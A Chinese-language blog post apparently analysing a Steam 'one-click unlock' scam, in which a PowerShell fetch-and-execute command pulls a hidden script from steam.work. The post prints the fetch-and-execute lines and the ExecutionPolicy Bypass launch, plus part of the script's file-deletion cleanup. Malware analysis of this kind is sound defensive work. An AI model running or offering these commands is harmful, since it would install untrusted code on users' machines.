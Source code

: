 # Steam一键解锁游戏骗局分析

义修队接的单，steam通过powershell解锁游戏，感觉不简单

![image-20240710211826674](../../../blog/source/pic/image-20240710211826674.png)

```powershell
irm steam.work | iex
```

1.`irm` 是 `Invoke-RestMethod` 的缩写，它用于发送 HTTP GET 请求到指定的 URL，这里是 `steam.work`。这个命令将尝试从该 URL 下载数据。

2.`|` 是管道符号，它会将前一个命令的输出作为下一个命令的输入。

3.`iex` 是 `Invoke-Expression` 的缩写。此命令将执行通过管道传递来的数据作为 PowerShell 脚本代码。

### 查看回显

1.**保存脚本到变量**:

```powershell
$scriptContent = irm steam.work
```

2.**查看脚本内容**:

```powershell
$scriptContent
```

通过这种方式，可以看到从 `steam.work` 返回的数据，而***不会执行***它。

返回了一个html文件，分析后发现是steam商城的默认页面

推测为检测UA头，只有powershell创建的web服务才能触发

![image-20240710211844448](../../../blog/source/pic/image-20240710211844448.png)

1. **powerShell**命令（ctrl+f搜到的）：

–      irm steam.work/pwsDwFile/new -OutFile x.ps1：这个命令使用Invoke-RestMethod（irm）从steam.work/pwsDwFile/new下载文件，并将其保存为名为x.ps1的PowerShell脚本文件。

–      powershell.exe -ExecutionPolicy Bypass -File x.ps1：此命令执行上一步保存的x.ps1脚本，同时绕过执行策略，允许运行未签名的脚本。

这种组合表明，目的是从一个可能未知或不受信任的源下载并执行PowerShell脚本

这个PowerShell脚本似乎在自动化与Steam和360安全软件相关的几个任务。以下是脚本的详细解释：

1. **下载并保存脚本：**
   ```powershell
   Invoke-RestMethod -Uri "http://steam.work/pwsDwFile/new" -OutFile "C:\PathToFolder\x.ps1"
   ```
   这段代码从指定的URL下载文件，并将其保存到指定路径。

2. **删除特定文件：**
   ```powershell
   $filePathToDelete = Join-Path $env:USERPROFILE "x.ps1"
   if (Test-Path $filePathToDelete) {
       Remove-Item -Path $filePathToDelete
   }
   $desktopFilePathToDelete = Join-Path ([System.Environment]::GetFolderPath('Desktop')) "x.ps1"
   if (Test-Path $desktopFilePathToDelete) {
       Remove-Item -Path $desktopFilePathToDelete
   }
   ```
   这段代码删除用户主目录和桌面上的名为`x.ps1`的文件。
